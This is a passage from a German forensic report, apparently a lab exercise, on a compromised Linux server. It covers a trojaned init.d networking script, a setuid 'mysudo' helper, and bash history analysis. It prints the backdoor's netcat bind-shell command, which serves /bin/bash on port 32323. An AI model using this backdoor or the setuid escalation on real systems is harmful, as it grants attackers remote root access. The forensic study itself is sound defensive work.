 Ein \texttt{ls -lah /home/evil/} zeigt folgende Ausgabe:
\begin{verbatim}
drwxr-xr-x 2 1001 root 4,0K Jan 28  2010 . 
drwxr-xr-x 5 root root 4,0K Jan 28  2010 .. 
-rw------- 1 1001 root  229 Jan 28  2010 .bash_history 
-rw-r--r-- 1 1001 root  220 Mai 12  2008 .bash_logout 
-rw-r--r-- 1 1001 root 3,1K Mai 12  2008 .bashrc 
-rwxr-xr-x 1 1001 root 1,3K Jan 28  2010 bdstart.sh 
-rwxr-xr-x 1 1001 root 1,9K Jan 28  2010 networking 
-rw-r--r-- 1 1001 root  675 Mai 12  2008 .profile
\end{verbatim}

Als erstes wurde die \texttt{networking} Datei näher betrachtet. Hierbei handelt es sich um ein Skript welches wahrscheinlich das Original unter \texttt{/etc/init.d/} ersetzen soll. Ein \texttt{diff /etc/init.d/networking /home/evil/networking} bestätigte diese vermutung. Wenn nun das Skript mit dem Parameter \texttt{start} aufgerufen wird, wird unter den normalen Befehlen ausserdem folgende Zeile ausgeführt:
\begin{verbatim}
/usr/local/bin/mysudo "/var/www/upload/netcat -nvv \
											 -l \
											 -e /bin/bash \
											 -p 32323"
\end{verbatim}
Diese Zeile führt das Program \texttt{mysudo} aus und öffnet eine \texttt{netcat} Listening Verbindung auf dem Port 32323 welche mit dem Schalter \texttt{-e} nach der Verbindung eine \texttt{bash} Shell öffnet.

Nach der Feststellung, dass der Angreifer mit \texttt{root}-Rechten agiert hat wurde die \texttt{.bash\_history}\ref{historyroot} des \texttt{root}-Benutzers untersucht.
Aufmerksamkeit erregte die Bearbeitung eines \texttt{mysudo} Programs.
Bei näherer Untersuchung wurde festgestellt, dass einer Binärdatei namens \texttt{mysudo} das \texttt{setuid} Bit gesetzt wurde, der Eigentümer auf \texttt{root:root} geändert und sie vom \texttt{/home/}-Verzeichniss des Benutzers \texttt{itf} nach \texttt{/usr/local/bin} verschoben wurde, was sie ausführbar für jeden Benutzer des Systems macht. Diese Aktionen wurden ausgeführt bevor der Angreifer auf das System kam \hl{referenz timestamps} was vermuten läßt, dass der Administrator diese ausgeführt hat.

Über die \texttt{.bash\_history} kann man die Befehle welche der Benutzer absetzte einsehen. \ref{historyevil}
Der Umstand, dass diese ebenfalls von Angreifern modifizierbar ist muss berücksichtigt werden. Manipulationen an dieser Datei sind ist anhand der MAC-Timestamps nicht nachvollziehbar da bei jeder Ausführung eines Befehls der \texttt{modification} und \texttt{change} Timestamp gestzt werden.\\


